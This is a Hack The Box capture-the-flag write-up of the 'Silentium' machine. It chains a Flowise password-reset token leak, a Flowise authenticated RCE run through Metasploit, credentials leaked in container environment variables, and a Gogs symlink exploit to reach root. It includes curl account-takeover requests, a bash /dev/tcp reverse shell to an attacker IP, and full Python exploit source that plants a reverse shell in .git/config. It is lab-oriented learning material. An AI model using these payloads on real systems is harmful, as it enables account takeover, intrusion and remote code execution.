# Silentium : Hack The Box Writeup

...........................

Silentium was one of those machines that looks simple at first (just 80 and 22), but slowly turns into a chain of _“wait… this is also vulnerable?”_ moments.

It ended up being a mix of:

- Flowise authentication issues (CVE-based)
- Custom MCP JavaScript injection (CVE-2025-59528)
- Credential leakage from environment variables
- Gogs local service exploitation for root

And yes… there was a moment where I tried about 12 reverse shells before realizing `/bin/bash` was basically on vacation.

---

## 1. Enumeration

The first step was a full scan:

```bash
nmap -p- -sS -sV --min-rate 10000 --open -n -Pn 10.129.39.130
```

Nmap showed only two services:

```bash
┌──(mensi㉿kali)-[~/Desktop]
└─$ nmap -p- -sS -sV --min-rate 10000 --open -n -Pn 10.129.39.130
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-26 06:12 -0400
Nmap scan report for 10.129.39.130
Host is up (0.076s latency).
Not shown: 55688 closed tcp ports (reset), 9845 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.79 seconds

┌──(mensi㉿kali)-[~/Desktop]
└─$


```

Nothing special at first glance… the classic “HTB calm before disaster”.

---

## 2. Initial Web Access

The first step was accessing the web service running on port 80.

After confirming the target was reachable, I opened it in the browser and immediately noticed a redirect to a domain-based setup:

```text
http://silentium.htb
```



Since the application relied on virtual hosting, I added it to my `/etc/hosts` file:

```bash id="h1"
echo "10.129.39.130 silentium.htb staging.silentium.htb" | sudo tee -a /etc/hosts
```

With the domain correctly resolved, I accessed the main website on port 80.

The page appeared as a standard corporate landing page. I performed basic enumeration (view-source, common paths, basic inspection), but nothing stood out:

- No hidden endpoints
- No obvious parameters
- No exposed admin panels
- No immediate attack surface


At this point, the application felt intentionally minimal.

So instead of forcing anything further, I moved on to **subdomain enumeration** to see if there were any hidden environments or staging instances exposed.

---

## 3. Subdomain Discovery

I fuzzed virtual hosts:

```bash
ffuf -u http://silentium.htb -H "Host: FUZZ.silentium.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -mc 200
```

Result:

```bash

┌──(mensi㉿kali)-[~/Desktop]
└─$ ffuf -u http://silentium.htb -H "Host: FUZZ.silentium.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -mc 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://silentium.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.silentium.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

staging                 [Status: 200, Size: 3142, Words: 789, Lines: 70, Duration: 111ms]
:: Progress: [4989/4989] :: Job [1/1] :: 402 req/sec :: Duration: [0:00:12] :: Errors: 0 ::

┌──(mensi㉿kali)-[~/Desktop]
└─$

```

- `staging.silentium.htb`

This is where things started getting interesting.

---

## 4. Identifying Flowise

The staging site was running **Flowise**.



At this point, my first thought wasn’t exploitation, it was just figuring out how to get inside.

> “Alright… this is probably just a signup/login flow. Let me find a way to authenticate first.”

---

<style>
.critical {
    
                display: inline-block;
                outline: 0;
                cursor: pointer;
                border-radius: 999px;
                border: 2px solid #ff4742;
                color: #ff4742;
                background: 0 0;
                padding: 8px;
                box-shadow: rgba(0, 0, 0, 0.07) 0px 2px 4px 0px, rgba(0, 0, 0, 0.05) 0px 1px 1.5px 0px;
                font-weight: 800;
                font-size: 10px;
                height: 30px;
                
                
}

</style>

## 5. CVE #1 : Flowise Password Reset Logic (CVE-2025-58434 <span class="critical">CRITICAL</span> )

While inspecting Flowise, I found a known security issue affecting password reset logic.

🔗 [https://github.com/advisories/GHSA-wgpv-6j63-x5ph](https://github.com/advisories/GHSA-wgpv-6j63-x5ph)

The API endpoint:

```
/api/v1/account/forgot-password
```

leaks a **temporary reset token** when combined with an internal header:

```bash
x-request-from: internal
```

Of course, this CVE still needs **a real registered email**.

At first I didn’t know any Flowise users, so I went back to the main website `silentium.htb` and checked the **Team / Leadership** section:

```
http://silentium.htb/#team
```

The company literally listed employee names like:

- Marcus Thorne
- Elena Rossi
- **Ben**

And since Flowise login placeholders usually follow the classic format:

```
user@company.com
```

I made the obvious guess:

`ben@silentium.htb`

Then I tested it against the forgot-password endpoint.

If the email is valid, Flowise responds differently (and even leaks a token).
If not, it returns `"Invalid User Email"`.

So this was basically:

> “Thanks for the employee directory… I’ll take it from here.”

So I triggered:

```bash
curl -X POST http://staging.silentium.htb/api/v1/account/forgot-password \
  -H "Content-Type: application/json" \
  -H "x-request-from: internal" \
  -d '{"user":{"email":"ben@silentium.htb"}}'
```

### Result

Boom! reset token returned.

```bash

┌──(mensi㉿kali)-[~/Desktop]
└─$ curl -X POST http://staging.silentium.htb/api/v1/account/forgot-password \
  -H "Content-Type: application/json" \
  -H "x-request-from: internal" \
  -d '{"user":{"email":"ben@silentium.htb"}}'
{"user":{"id":"e26c9d6c-678c-4c10-9e36-01813e8fea73","name":"admin","email":"ben@silentium.htb","credential":"$2a$05$nQz8sDzUf6EWRG3oW5TW9uPoBXLqPtcI7GoclN5K42wITyxDdDTge","tempToken":"glgeRkFCaFWRGpdLyQ8PJ1Sl9S3jGXdtfATjM8jhg8tyL2pOdHV4V7oBmzRztgnW","tokenExpiry":"2026-04-26T15:55:20.018Z","status":"active","createdDate":"2026-01-29T20:14:57.000Z","updatedDate":"2026-04-26T15:40:20.000Z","createdBy":"e26c9d6c-678c-4c10-9e36-01813e8fea73","updatedBy":"e26c9d6c-678c-4c10-9e36-01813e8fea73"},"organization":{},"organizationUser":{},"workspace":{},"workspaceUser":{},"role":{}}
┌──(mensi㉿kali)-[~/Desktop]
└─$
```

After triggering the forgot-password endpoint, the application returned a **temporary reset token** (`tempToken`) tied to the user session:

```json
"tempToken": "glgeRkFCaFWRGpdLyQ8PJ1Sl9S3jGXdtfATjM8jhg8tyL2pOdHV4V7oBmzRztgnW"
```

This token is the missing piece required to complete the password reset flow.

I then used it against the reset-password endpoint:

```bash
curl -X POST http://staging.silentium.htb/api/v1/account/reset-password \
  -H "Content-Type: application/json" \
  -H "x-request-from: internal" \
  -d '{
    "user":{
      "email":"ben@silentium.htb",
      "tempToken":"eXGKMn3DsLwQqLT7NYVFo9MuFdVmxnXBQfW3OtUpIuMSTV8rjxmmSUshU2cjPmAy",
      "password":"Flowise-Fucked-UP123!"
    }
  }'
```

### Result

```bash

┌──(mensi㉿kali)-[~/Desktop]
└─$ curl -X POST http://staging.silentium.htb/api/v1/account/reset-password \
  -H "Content-Type: application/json" \
  -H "x-request-from: internal" \
  -d '{
    "user":{
      "email":"ben@silentium.htb",
      "tempToken":"eXGKMn3DsLwQqLT7NYVFo9MuFdVmxnXBQfW3OtUpIuMSTV8rjxmmSUshU2cjPmAy",
      "password":"Flowise-Fucked-UP123!"
    }
  }'
{"user":{"id":"e26c9d6c-678c-4c10-9e36-01813e8fea73","name":"admin","email":"ben@silentium.htb","credential":"$2a$05$ToiMYgKbGdGrZcaLSQ0nveJZ1G1EPfAKAy87IZP/RsvQaF7ZOl01.","tempToken":"","tokenExpiry":null,"status":"active","createdDate":"2026-01-29T20:14:57.000Z","updatedDate":"2026-04-26T16:08:10.000Z","createdBy":"e26c9d6c-678c-4c10-9e36-01813e8fea73","updatedBy":"e26c9d6c-678c-4c10-9e36-01813e8fea73"},"organization":{},"organizationUser":{},"workspace":{},"workspaceUser":{},"role":{}}
┌──(mensi㉿kali)-[~/Desktop]
└─$

```

The password was successfully updated, confirming the full exploitation of the password reset logic flaw.

At this point, I had valid credentials and i successfully logged in the Flowise instance.



---

## 6. Dead End #1 : Manual RCE attempts


Before switching to a more reliable exploitation method, I initially tried leveraging the RCE techniques referenced in the official Flowise advisory:

[https://github.com/FlowiseAI/Flowise/security/advisories/GHSA-3gcm-f6qx-ff7p](https://github.com/FlowiseAI/Flowise/security/advisories/GHSA-3gcm-f6qx-ff7p)

The idea was to directly trigger command execution through the vulnerable node-loading mechanism using custom payloads.

I tested several variations of the provided PoC payloads, including NodeJS-based command execution and reverse shell injections:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.15.117/4444 0>&1'
```

However, this approach did not work reliably in this environment. The payloads either failed to execute or did not return a stable reverse shell, likely due to runtime restrictions or differences in how the staging instance was configured compared to the vulnerable reference setup.


---

## 7. CVE #2 : CustomMCP JS Injection (CVE-2025-59528 <span class="critical">CRITICAL</span>)

After the manual exploitation attempts failed, I shifted to a more stable approach using **Metasploit**, since Flowise has known authenticated RCE modules available for affected versions.

From earlier enumeration, I had already confirmed the target version:

```
Flowise 3.0.5
```

This falls within the vulnerable range for:

- **CVE-2025-59528 — Flowise JS Injection / Custom MCP RCE**

### Finding the exploit module

I searched for available Flowise modules in Metasploit:

```bash id="msf1"
search Flowise
```



This returned multiple exploit modules, including:

```
exploit/multi/http/flowise_js_rce
exploit/multi/http/flowise_custommcp_rce
```

I selected the JS RCE module:

```bash id="msf2"
use exploit/multi/http/flowise_js_rce
```

### Configuring the exploit

Since this is an **authenticated RCE**, valid credentials were required.



From the previous password reset exploitation (CVE-2025-58434), I already had:

- Email: `ben@silentium.htb`
- Password: `Flowise-Fucked-UP123!`

I configured the module accordingly:

```bash id="msf3"
set RHOSTS 10.129.39.130
set VHOST staging.silentium.htb
set RPORT 80
set FLOWISE_EMAIL ben@silentium.htb
set FLOWISE_PASSWORD Flowise-Fucked-UP123!
set LHOST 10.10.15.117
set LPORT 4444
```



### Exploitation

I started a listener and executed the module:

```bash id="msf4"
run
```

Metasploit successfully:

- Authenticated to Flowise
- Detected vulnerable version (3.0.5)
- Injected the payload via the JS execution vector
- Spawned a reverse shell

```
[*] Authentication successful
[*] Sending stage ...
[*] Meterpreter session opened
```

### Result — Initial shell access

I upgraded the session to a system shell:

```bash id="msf5"
shell
whoami
```

Output:

```
root
```



At this point, I had **immediate root access**, however I quickly realized I was inside a **containerized environment**, not the host system.

---

## 8. Container Enumeration

After getting a shell via the Flowise RCE chain, I landed inside the system as **root**.

Which, at first glance, sounds like _game over_… until you realize:

> “Yeah I’m root… but inside a container. what should i do now!”

To confirm the environment, I ran a quick container enumeration using **deepce.sh**:

🔗 https://github.com/stealthcopter/deepce

This helped me quickly understand the environment:

- I was indeed running inside a **Docker container**
- No Docker socket mounted
- Not a privileged container
- No obvious escape vector at first glance

So basically:

> “Root privileges, but still clearly containerized.”

### DeepCE Analysis

The script gave a very detailed breakdown of the container.







### Secret Discovery in Environment Variables

While reviewing the output, I noticed something that instantly changed the direction of the attack:

```bash
FLOWISE_PASSWORD=F1l3_d0ck3r
FLOWISE_USERNAME=ben
SENDER_EMAIL=ben@silentium.htb
SMTP_PASSWORD=r04D!!_R4ge
```

At this moment I just paused for a second.

> “So we did reverse shells, CVEs, payloads… and the real password was just chilling in environment variables like it’s a README file.”

### Pivot to Host Access

These credentials were extremely valuable.

Even though SSH login initially failed with common guesses, one password stood out:

```text
r04D!!_R4ge
```

This turned out to be valid for the **ben** user on the host machine.

So I simply tried:

```bash
ssh ben@10.129.39.130
```

And got access:

> ✔ user shell obtained on the host

We got host access as `ben`.



## 9. User flag

```bash
cat user.txt
```



---

## 10 Rabbit Hole

After getting the user flag, I immediately switched into full privilege escalation mode and proceeded to _lightly destroy my own brain performance_ in the process.

I checked everything — SUIDs, cron jobs, kernel, hopes, dreams… nothing.

At some point, I wasn’t exploiting the machine anymore, I was just arguing with linPEAS like it owed me money.


### Summary of my findings:

- 1 local service
- some interesting env vars
- 0 immediate wins
- 100% overthinking damage

---

## 11. Local Service Discovery

To enumerate running services on the host, I used:

```bash id="ss1"
netstat -tulnp
```



This quickly revealed a local service bound to localhost:

```
127.0.0.1:3001
```

Since it wasn’t exposed externally, I assumed it was only reachable from inside the machine.

### Port Forwarding

To access it from my machine, I set up SSH port forwarding:

```bash id="ss2"
ssh -L 3001:127.0.0.1:3001 ben@10.129.39.130
```

This allowed me to interact with the service locally via:

```
http://127.0.0.1:3001
```



### Service Identification

Running basic enumeration on the page with WhatWeb revealed:

> **Gogs (self-hosted Git service)**

At this point, it was clear that the target was exposing a local development or internal code management service.

---

## 12. CVE #3 : Gogs Symlink / Repo Abuse → Root (CVE-2025-8110 <span class="critical">HIGH</span>)

At this point, I had a stable foothold on the host as **ben**, but local privilege escalation still wasn’t obvious.

Instead of blindly trying manual exploitation, I looked up known vulnerabilities for this version of Gogs.

A quick good search :

> "gogs rce cve"

led me to a working public exploit:

🔗 [https://github.com/TYehan/CVE-2025-8110-Gogs-RCE-Exploit](https://github.com/TYehan/CVE-2025-8110-Gogs-RCE-Exploit)

```python

#!/usr/bin/env python3

import argparse
import requests
import os
import subprocess
import shutil
import urllib3
import base64
from urllib.parse import urlparse
from rich.console import Console

# Settings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
console = Console()

"""
Exploit script for CVE-2025-8110 in Gogs.
Identity-fix for Target machine.
"""

__author__ = "TYehan"

def create_malicious_repo(session, base_url, token):
    """Create a repository with a malicious payload."""
    api = f"{base_url}/api/v1/user/repos"
    repository_name = os.urandom(6).hex()
    data = {
        "name": repository_name,
        "description": "Exploit repo for CVE-2025-8110",
        "auto_init": True,
        "readme": "Default",
        "ssh": True,
    }
    session.headers.update({"Authorization": f"token {token}"})
    resp = session.post(api, json=data)

    if resp.status_code == 201:
        console.print(f"[bold green][+] Repo created: {repository_name}[/bold green]")
        return repository_name
    else:
        raise ValueError(f"Failed to create repo: {resp.status_code} - {resp.text}")

def upload_malicious_symlink(base_url, username, password, repo_name):
    """Clone repo, add symlink to .git/config, and push."""
    repo_dir = f"/tmp/{repo_name}"
    parsed_url = urlparse(base_url)
    base_path = parsed_url.path.rstrip("/")

    clone_url = f"{parsed_url.scheme}://{username}:{password}@{parsed_url.netloc}{base_path}/{username}/{repo_name}.git"

    try:
        if os.path.exists(repo_dir):
            shutil.rmtree(repo_dir)

        console.print(f"[blue][*] Cloning {repo_name} as {username}...[/blue]")
        subprocess.run(["git", "clone", clone_url, repo_dir], check=True, capture_output=True)

        # SET LOCAL IDENTITY TO BYPASS THE EXIT 128 ERROR
        subprocess.run(["git", "config", "user.email", "tyehan@htb.local"], cwd=repo_dir, check=True)
        subprocess.run(["git", "config", "user.name", "TYehan"], cwd=repo_dir, check=True)

        # Create symlink
        os.symlink(".git/config", os.path.join(repo_dir, "malicious_link"))

        subprocess.run(["git", "add", "malicious_link"], cwd=repo_dir, check=True)
        subprocess.run(["git", "commit", "-m", "Initial commit"], cwd=repo_dir, check=True)
        subprocess.run(["git", "push", "origin", "master"], cwd=repo_dir, check=True)
        console.print("[bold green][+] Symlink successfully pushed to master.[/bold green]")

    except subprocess.CalledProcessError as e:
        error_msg = e.stderr.decode() if e.stderr else str(e)
        raise ValueError(f"Git command failed: {error_msg}")

def exploit(session, base_url, token, username, repo_name, config_payload):
    """Trigger CVE-2025-8110 by overwriting the symlink via API."""
    api = f"{base_url}/api/v1/repos/{username}/{repo_name}/contents/malicious_link"

    resp = session.get(api)
    if resp.status_code != 200:
        raise ValueError(f"Could not fetch symlink SHA: {resp.status_code}")
    sha = resp.json().get('sha')

    data = {
        "message": "Update config via CVE-2025-8110",
        "content": base64.b64encode(config_payload.encode()).decode(),
        "sha": sha
    }

    headers = {
        "Authorization": f"token {token}",
        "Content-Type": "application/json",
    }

    console.print("[yellow][*] Overwriting .git/config via symlink API...[/yellow]")
    r = session.put(api, json=data, headers=headers, timeout=10)
    if r.status_code in [200, 201]:
        console.print("[bold green][+] Exploit payload delivered![/bold green]")
    else:
        console.print(f"[bold red][-] Failed to overwrite: {r.status_code} - {r.text}[/bold red]")

def main():
    parser = argparse.ArgumentParser(description="Gogs CVE-2025-8110 Exploit")
    parser.add_argument("-u", "--url", required=True, help="Gogs base URL")
    parser.add_argument("-un", "--username", required=True, help="Gogs Username")
    parser.add_argument("-pw", "--password", required=True, help="Gogs Password")
    parser.add_argument("-t", "--token", required=True, help="Gogs API Token")
    parser.add_argument("-lh", "--host", required=True, help="LHOST")
    parser.add_argument("-lp", "--port", required=True, help="LPORT")
    args = parser.parse_args()

    session = requests.Session()
    session.verify = False

    rev_shell = f"bash -c 'bash -i >& /dev/tcp/{args.host}/{args.port} 0>&1' #"

    git_config_payload = f"""[core]
    repositoryformatversion = 0
    filemode = true
    bare = false
    logallrefupdates = true
    sshCommand = {rev_shell}
[remote "origin"]
    url = git@localhost:gogs/research.git
    fetch = +refs/heads/*:refs/remotes/origin/*
[branch "master"]
    remote = origin
    merge = refs/heads/master
"""

    try:
        repo_name = create_malicious_repo(session, args.url, args.token)
        upload_malicious_symlink(args.url, args.username, args.password, repo_name)
        exploit(session, args.url, args.token, args.username, repo_name, git_config_payload)

        console.print(f"[bold cyan][!] Payload active. Check your listener on {args.host}:{args.port}![/bold cyan]")

    except Exception as e:
        console.print(f"[bold red][-] Error: {e}[/bold red]")

if __name__ == "__main__":
    main()


```

The exploit described a **symlink-based repository abuse chain**, where:

- a malicious repository is created
- a symlink is injected into the repo structure
- internal file paths are targeted
- sensitive files can be overwritten or accessed
- leading to **remote code execution as the service user (and in this case, root context via misconfiguration)**

### Exploitation

I followed the exploit logic:

```bash

┌──(mensi㉿kali)-[~/Desktop]
└─$ python3 CVE-2025-8110.py -h
usage: CVE-2025-8110.py [-h] -u URL -un USERNAME -pw PASSWORD -t TOKEN -lh HOST -lp PORT

Gogs CVE-2025-8110 Exploit

options:
  -h, --help            show this help message and exit
  -u, --url URL         Gogs base URL
  -un, --username USERNAME
                        Gogs Username
  -pw, --password PASSWORD
                        Gogs Password
  -t, --token TOKEN     Gogs API Token
  -lh, --host HOST      LHOST
  -lp, --port PORT      LPORT

┌──(mensi㉿kali)-[~/Desktop]
└─$


```

i got the token from the settings after successfull register / login.



```
02a40aa17aa0dd7ead44bc372fe76d6d9549762e
```

Once the exploit executed successfully, I obtained command execution.

```bash
python3 CVE-2025-8110.py -u http://127.0.0.1:3001 -un mensi -pw mensi \
-t 02a40aa17aa0dd7ead44bc372fe76d6d9549762e -lh 10.10.15.117 -lp 4444
```



## 13. Root Flag

```bash
cat /root/root.txt
```



Done.

---

## 14. Final Thoughts

Silentium was a chain of “small mistakes that become big problems”:

### CVEs used:

- **CVE-2025-58434** → Flowise password reset token leak
- **CVE-2025-59528** → CustomMCP JavaScript injection → RCE

### Attack flow:

1. Subdomain discovery → staging Flowise
2. Password reset abuse → account takeover
3. CustomMCP injection → container RCE
4. Environment leakage → SSH credentials
5. Local service discovery → Gogs
6. Symlink exploit → root

## 15. Conclusion

As a conclusion, I suddenly realized my browser was actively suffering and considering retirement.




---


